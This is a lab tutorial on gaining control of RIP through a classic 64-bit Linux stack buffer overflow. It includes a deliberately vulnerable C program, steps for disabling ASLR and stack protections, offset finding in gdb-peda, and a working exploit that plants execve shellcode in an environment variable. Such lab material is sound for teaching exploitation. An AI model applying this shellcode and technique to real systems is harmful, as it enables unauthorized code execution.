

# 64-bit Stack-based Buffer Overflow

The purpose of this lab is to understand how to get control of the RIP register when dealing with classic stack-based buffer overflow vulnerabilities in 64-bit Linux programs.

This lab is based on a great post [https://blog.techorganic.com/2015/04/10/64-bit-linux-stack-smashing-tutorial-part-1/](https://blog.techorganic.com/2015/04/10/64-bit-linux-stack-smashing-tutorial-part-1/).


Note that the vulnerable program used in this lab was compiled without memory protections deliberately and similarly, the ASLR was disabled.


Useful notes:



## Vulnerable Code

In this lab, we will be using the below vulnerable program, which declares a buffer `buf` of 80 bytes, but then allows writing 400 bytes to it, which when done, will overwrite stack's contents, specifically, the RBP and the return address, which can and will be exploited in this lab:



```c
// code from https://blog.techorganic.com/2015/04/10/64-bit-linux-stack-smashing-tutorial-part-1/

#include <stdio.h>
#include <unistd.h>

int vuln() {
    char buf[80];
    int r;
    r = read(0, buf, 400);
    printf("\nRead %d bytes. buf is %s\n", r, buf);
    puts("No shell for you :(");
    return 0;
}

int main(int argc, char *argv[]) {
    printf("Try to exec /bin/sh");
    vuln();
    return 0;
}
```




**Remember about the stack**

* Stack grows downwards
* Local variables are defined at lower stack addresses
* Return address is located higher up in the stack, compared to local variables


We can compile the above code with:

```python
gcc -fno-stack-protector -z execstack vulnerable.c -o vulnerable
```


Don't forget to disable the ASLR:

```text
echo 0 > /proc/sys/kernel/randomize_va_space
```


## Getting Control of RIP

Let's try to overflow the program's `buf` buffer by sending some garbage data to it. First of, let's generate the said garbage data - 200 AAAAs:

```python
python -c "print 'A'*200" > in.bin
```

Let's now run the vulnerable program, feed the garbage file to it and observe the program crash:

```python
gdb vulnerable
r < in.bin
```


Note from the above screenshot the following key points:

* The stack has been overflowed with As \(lime\);
* RIP register \(red\) has not been overflowed although it would have been, had this been a 32-bit binary. On the same note, we can indeed see that the return address \(RSP + 0 as `ret` instruction would pop this value and jump to it\) has been filled with `AAAA...`s, so why are we not in control of the RIP register?

### Why is RIP not overflowed?

The reason the RIP was not overflowed \(technically it was, as we saw in the above screenshot, but there's more to it\), is because the `AAAAAAAA` \(`0x4141414141414141`\) is considered a non-canonical memory address, or, in other words, `0x4141414141414141` is a 64-bit wide address and current CPUs prevent applications and OSes to use 64-bit wide addresses. 

Instead, the highest memory addresses programs can use  are 48-bit wide addresses and they are capped to `0x00007FFFFFFFFFFF`. This is to prevent the unnecessary complexity in memory address translations that would not provide much benefit to the OSes or applications as it's very unlikely they would ever need to use all of that 64-bit address space. 

### Finding RIP Offset

Knowing about canonical addresses, we could take control of the RIP if the 64-bit wide return address `0x4141414141414141` \(our garbage data\) we tried to plant into the vulnerable program's stack, was translated to a 48-bit canonical address by masking off the 2 highest bytes:

```python
// WinDBG
0:000> ? 0x4141414141414141 & 0x00007FFFFFFFFFFF
Evaluate expression: 71748523475265 = 00004141`41414141
```

Making our garbage return address a valid canonical address \(note the 2 leading bytes are `00 00`\):

$$
0x0000414141414141
$$

Let's see if we can make the program crash and point the RIP to the now canonical memory address `0x0000414141414141`.

Before we can do this, we need to find out how much garbage `AAA..` we need to send in to the vulnerable program before we can place `0x0000414141414141` onto the stack, so that we can take over the RIP.

In gdb-peda, let's create a pattern of 200 characters:

```python
gdb-peda$ pattern_create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
```

Feed that pattern to the vulnerable program, observe the crash, and find the offset where we should place our preferred RIP value \(`0x0000414141414141`\):


From the above screenshot, we can see that part of our pattern `A7AAMAAiA...` is visible at the top of the stack -  this value would be popped from the stack and jumped to by the `ret` instruction. Now we need to know how many characters of the 200 bytes pattern that we generated earlier were put on the stack, before `A7AAMAAiA` got placed at the top of the stack.

Below screenshot illustrates the point outlined above:

* 200 characters pattern string
* In red, 104 bytes of garbage characters
* In cyan, the `A7AAMAAiA` - this is where we would place our arbitrary RIP value


To calculate the offset in gdb-peda, we can use `pattern_offset` like so:

```python
gdb-peda$ pattern_offset A7AAMAAiA
A7AAMAAiA found at offset: 104
```

### RIP is Under Control

The RIP offset as we've just identified is `104`. Let's test it by generating a new garbage file that will now contain 104 `A` and a canonical return address `0x0000414141414141` \(in reverse due to little-endianness\):

```python
python -c "print 'A'*104 + '\x41\x41\x41\x41\x41\x41\x00\x00'" > in.bin
```

Sending this data to the vulnerable program reveals that we have now taken control of the RIP register \(lime\):


## Exploitation

We'd like the vulnerable program to spawn a shell for us when exploited, so we will place the [shellcode](http://shell-storm.org/shellcode/files/shellcode-806.php) in the environment variable `PWN`, so it ends up in the vulnerable program's stack when it's executed, like so:

```python
export PWN=`python -c 'print "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"'`
```

We now need to find where on stack the `PWN` environment variable will be located in the vulnerable program. For this, we can use the following program:



```cpp
// code by Jon Erickson, page 147 and 148 of Hacking: The Art of Exploitation, 2nd Edition

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
	char *ptr;

	if(argc < 3) {
		printf("Usage: %s <environment variable> <target program name>\n", argv[0]);
		exit(0);
	}
	ptr = getenv(argv[1]); /* get env var location */
	ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* adjust for program name */
	printf("%s will be at %p\n", argv[1], ptr);
}
```



Compile it with:

```text
gcc getenvvar.c -o getenvvar
```

Then run it like so:

```python
./getenvvar PWN ./vulnerable
```

Note that the `PWN` environment variable will be on the vulnerable program's stack at `0x7fffffffefa8`:


Convert `0x7fffffffefa8` to its canonical \(2 highest bytes masked off\) form, which equals to `0x0000ffffefa8`. We can now try to exploit the vulnerable program by sending the garbage data that now includes the `PWN` environment variable address \(that contains the shellcode that spawns a shell\) as the return address at offset 104, like so:

```python
(python -c "print 'A'*104 + '\xa8\xef\xff\xff\xff\x7f\x00\x00'"; cat) | ./vulnerable
```



To confirm the exploit worked as expected, we can `unset` the `PWN` environment variable and try to exploit the program again just to see the program crash, since it no longer knows what shellcode to execute:


## References







[https://www.cs.tufts.edu/comp/40/docs/x64\_cheatsheet.pdf](https://www.cs.tufts.edu/comp/40/docs/x64_cheatsheet.pdf)

